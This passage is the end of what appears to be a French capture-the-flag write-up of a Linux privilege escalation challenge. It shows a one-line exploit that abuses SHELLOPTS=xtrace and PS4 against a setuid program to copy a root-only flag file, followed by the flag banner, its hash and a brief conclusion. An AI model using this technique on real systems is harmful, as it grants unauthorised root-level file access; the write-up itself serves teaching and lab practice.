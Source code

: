 Et ça marche :  

```plain
bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /root/flag.txt /tmp; chmod 644 /tmp/flag.txt)' /usr/local/bin/whoisme
/usr/bin/logname
user2
bash-4.2$ ls /tmp/
firewalld-backup.zip  flag.txt  go_user3  setuid_user3  setuid_user3.c
bash-4.2$ cat /tmp/flag.txt

___________.__                      __            __
\_   _____/|  | _____     ____    _/  |____  ____/  |_
 |    __)  |  | \__  \   / ___\   \   __\  \/  /\   __\
 |     \   |  |__/ __ \_/ /_/  >   |  |  >    <  |  |
 \___  /   |____(____  /\___  / /\ |__| /__/\_ \ |__|
     \/              \//_____/  \/            \/

Congrats!! :D
FLAG: da96dd381dc607ccd3302312233531efa68b8b7b

-----------------------------------------------------
This challenge was created as part of:
Windows / Linux Local Privilege Escalation Workshop (@s4gi_)
```

Conclusion
----------

Un challenge différent des boot2root classiques avec un focus sur l'escalade de privilèges c'est toujours bon à prendre :)

*Published March 13 2018 at 13:56*
